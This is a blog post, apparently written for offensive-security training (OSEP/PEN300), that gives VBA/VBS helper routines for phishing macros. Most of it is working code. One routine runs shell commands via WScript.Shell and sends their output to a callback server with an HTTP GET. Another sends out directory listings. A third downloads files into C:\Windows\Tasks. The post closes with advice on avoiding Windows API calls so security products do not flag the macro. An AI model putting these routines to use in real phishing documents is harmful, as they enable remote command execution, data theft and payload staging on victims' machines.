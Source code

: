 ```yaml
---
title: "Don't Go Phishing Blind, Watch While RunTime"
date: 2021-12-04T11:25:46Z
categories: ["Programming", "Security"]
tags: ["OSEP", "PEN300", "VBA", "VBS", "HTA", "HTTP"]
---
```


Raise your hand if you crafted well your payload and the payload worked well in your lab machines but in the real scenario you're not receiving the callback! I guess all of us at some point have experienced this.  

To solve this I wrote a simple and yet effective set of functions that allow us to see what going on while the runtime of our script. 

The first function/subroutine, which I called hello simply sends an GET request to a specified server.

```VB
Sub Hello(message)
	On Error GoTo Done
	Dim MyRequest As Object
	Set MyRequest = CreateObject("WinHttp.WinHttpRequest.5.1")
	MyRequest.Open "GET", _
	"http://127.0.0.1/" & message
	' Send Request.
	MyRequest.Send
	Set MyRequest = Nothing
	Done:
		Exit Sub
End Sub
```

This is the main important one, since we are relying on the HTTP protocol to call home after executing an action. 

The second important one is ShellRun, this function run a system command and returns the captured output of the command. 

```VB
Function ShellRun(sCmd As String) As String
	'Run a shell command, returning the output as a string
	Dim oShell As Object
	Set oShell = CreateObject("WScript.Shell")

	'run command
	Dim oExec As Object
	Dim oOutput As Object
	Set oExec = oShell.Exec(sCmd)
	Set oOutput = oExec.StdOut

	'handle the results as they are written to and read from the StdOut object
	Dim s As String
	Dim sLine As String
	While Not oOutput.AtEndOfStream
		sLine = oOutput.ReadLine
		If sLine <> "" Then s = s & sLine & vbCrLf
	Wend

	ShellRun = s
End Function
```

In conjunction with Hello, this gives us a visibility of what is going on while the runtime of our phishing script.

```VB
Hello (ShellRun("ping google.com"))
```

Bonus:

One of the other helpers, I wrote is LoopThroughFiles() this print the content of the provider directory.

```VB
Sub LoopThroughFiles(path)
	On Error GoTo Done
	Dim oFSO As Object
	Dim oFolder As Object
	Dim oFile As Object
	Dim i As Integer

	Set oFSO = CreateObject("Scripting.FileSystemObject")
	Set oFolder = oFSO.GetFolder(path)

	For Each oFile In oFolder.Files
	Hello (oFile.Name)
	i = i + 1
	Next oFile
	Done:
		Exit Sub
End Sub
```

The subroutine relies on Hello subroutine, this could be used as shown below:

```VB
LoopThroughFiles ("C:\Windows\Tasks")
```

I will finish this post with an extra subroutine that download text files, no binary files.

```VB
Sub WantMe(pie)
	Dim myURL As String
	myURL = "http://127.0.0.1/" & pie

	Dim WinHttpReq As Object
	Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
	WinHttpReq.Open "GET", myURL, False, Null, Null
	WinHttpReq.Send

	If WinHttpReq.Status = 200 Then
		Set oStream = CreateObject("ADODB.Stream")
		oStream.Open
		oStream.Type = 1
		oStream.Write WinHttpReq.responseBody
		oStream.SaveToFile "C:\Windows\Tasks\" & pie, 2 ' 1 = no overwrite, 2 = overwrite
		oStream.Close
	End If
End Sub
```

Nothing special really here, just a set of function helpers to facilitate things, if you noticed we have not used native Windows API and that's for a reason and the reason for that is portability of the code (few changes) when porting it VBS/HTA, also using native Windows API in Macro could be treated as a red flag by a security product. 

Thanks  for ready!
